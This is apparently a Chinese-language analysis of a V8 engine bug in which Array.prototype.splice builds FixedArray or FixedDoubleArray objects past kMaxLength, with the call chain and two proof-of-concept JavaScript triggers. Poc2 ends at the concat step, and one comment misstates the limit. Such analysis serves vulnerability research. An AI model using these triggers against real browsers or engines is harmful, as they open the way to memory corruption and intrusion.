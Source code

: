 在两个宏实现中都没有对length的边界大小进行判断就直接新建相应对象，其中FixedArray对象最大长度FixedArray::kMaxLength为0x7fffffd，FixedDoubleArray对象最大长度为FixedDoubleArray::kMaxLength为0x3fffffe。

所以漏洞在于能够创建大于kMaxLength的FixedArray或FixedDoubleArray对象。

漏洞调用链：

```c
// builtins/array-splice.tq
ArrayPrototypeSplice -> FastArraySplice -> FastSplice -> Extract -> ExtractFixedArray -> NewFixedArray
```



Poc1：

```javascript
array = Array(0x80000).fill(1); // [1]
array.prop = 1; // [2]
args = Array(0x100 - 1).fill(array); // [3]
args.push(Array(0x80000 - 4).fill(2)); // [4]
giant_array = Array.prototype.concat.apply([], args); // [5]
giant_array.splice(giant_array.length, 0, 3, 3, 3, 3); // [6]
%DebugPrint(giant_array.length); // 输出DebugPrint: Smi: 0x8000000 (134217728)
```

[1] 处申请了一个0x80000大小的数组，[3]处又创建了一个0xff大小，每个元素为array的对象，此时0xff * 0x80000 = 0x7f80000 个元素。[4] 处再push进一个0x7fffc个元素的数组，此时共有0x7f80000 + 0x7fffc = 0x7fffffc个元素，而FixedDoubleArray::kMaxLength = 0x7fffffd。[5]处利用Array.prototype.concat.apply 将上述混合的对象转化成一维数组。最后，[6]处再次利用splice方法添加4个元素，现在一共有0x7fffffc + 4 = 0x8000000个元素，导致giant_array的长度为FixedArray::kMaxLength + 3。

[2] 处设置属性是为了调用Array.prototype.concat时进入慢路径，因为快路径上有长度检查：

```javascript
// builtins/builtins-array.cc:1414
MaybeHandle<JSArray> Fast_ArrayConcat(Isolate* isolate,
                                      BuiltinArguments* args) {
  // ...
  
  // Throw an Error if we overflow the FixedArray limits
  if (FixedDoubleArray::kMaxLength < result_len ||
      FixedArray::kMaxLength < result_len) {
    AllowHeapAllocation gc;
    THROW_NEW_ERROR(isolate,
                    NewRangeError(MessageTemplate::kInvalidArrayLength),
                    JSArray);
  }
```

Poc2 和Poc1 类似，只是将数组类型改成了HOLEY_DOUBLE_ELEMENTS，因为HOLEY_DOUBLE_ELEMENTS类型大小最大为0x3fffffe，能更快地触发漏洞。

Poc2：

```javascript
// HOLEY_DOUBLE_ELEMENTS kind, size=0x40000, filled with 1.1's
array = Array(0x40000).fill(1.1);

// Total number of elements in `args`: 0x40000 * 0xff = 0x3fc0000
args = Array(0x100 - 1).fill(array);

// We want a size that's just less than FixedDoubleArray::kMaxLength = 0x3ffffe
// This new array that is pushed onto `args` can actually have a maximum size 
// of (0x40000 - 2), but Sergey chooses to use (0x40000 - 4)
// Total number of elements in `args`: 0x3fc0000 + 0x3fffc = 0x3fffffc
args.push(Array(0x40000 - 4).fill(2.2));

// `Array.prototype.concat` fast path, the length check passes as the final
// length of `giant_array` becomes 0x3fffffc, which is equal to
// `FixedDoubleArray::kMaxLength - 2`
giant_array = Array.prototype.concat.apply([], args);
```